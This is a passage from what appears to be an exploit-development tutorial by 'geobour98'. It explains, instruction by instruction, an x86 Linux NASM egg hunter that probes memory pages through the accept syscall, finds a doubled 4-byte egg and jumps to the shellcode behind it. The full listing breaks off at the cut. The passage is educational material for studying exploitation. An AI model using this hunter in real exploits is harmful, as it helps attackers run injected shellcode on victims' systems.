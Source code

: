 ```nasm
	int 0x80		; exec access syscall
```

The returned value from the `accept` syscall is stored in `EAX` register, so we want to compare the `AL` part with the hexadecimal value `0xf2`, which is the low byte of the `EFAULT` return value. If they are equal, the Zero Flag (`ZF`) is set and it means that we want to go to the next memory page to search for the egg.

```nasm
	cmp al, 0xf2		; compare return value of accept with 0xf2 (low byte of EFAULT return value)
```

We restore the values from the stack, especially the `EBX` value that is the egg.

```nasm
	popa			; pop all registers from the stack
```

Then, if the `ZF` was set from `cmp` instruction, we jump to the `next_page` procedure in order to go to the next memory page.

```nasm
	jz next_page		; jump short to next_page if zero (ZF = 1)
``` 

If the `ZF` from before isn't set, it means we have a valid memory address. So we can compare the value pointing by `EDX` with the egg value at `EBX`. If they match, meaning that we found the egg for the first time, we continue through the code. Otherwise, we jump to the `next_address` procedure in order to search for the egg in the next memory address.

```nasm
	cmp [edx], ebx		; if the egg in ebx doesn't match edx content go to the next address
	jnz next_address	; jump short if not zero (ZF = 0)
```

If the `ZF` is set from before, meaning we have the egg for the first time, we can compare the value of the next address (`EDX + 4`) with the egg again to identify if we have 2 consecutive instances of the egg and we can execute the following shellcode. Otherwise, we jump to the `next_address` again.

```nasm
	cmp [edx + 0x4], ebx	; if the egg in ebx doesn't match edx+4 content go to the next address again
	jnz next_address		; jump short if not zero (ZF = 0)
```

Finally, at this point we have found 2 consecutive instances of the egg and we can jump at the shellcode in order to execute it.

```nasm
	jmp edx			; egg is found, jump short at edx (our shellcode)
```

The whole `Assembly` program is the following:

```nasm
; Egg Hunter
; Author: geobour98 

global _start

section .text

_start:
	mov ebx, 0x50905090	; move the 4 bytes egg in ebx

	xor ecx, ecx		; clear ecx register
	mul ecx			; multiply ecx with eax and store upper bits in edx and lower in eax, both 0

next_page:
	or dx, 0xfff		; page alignment operation
```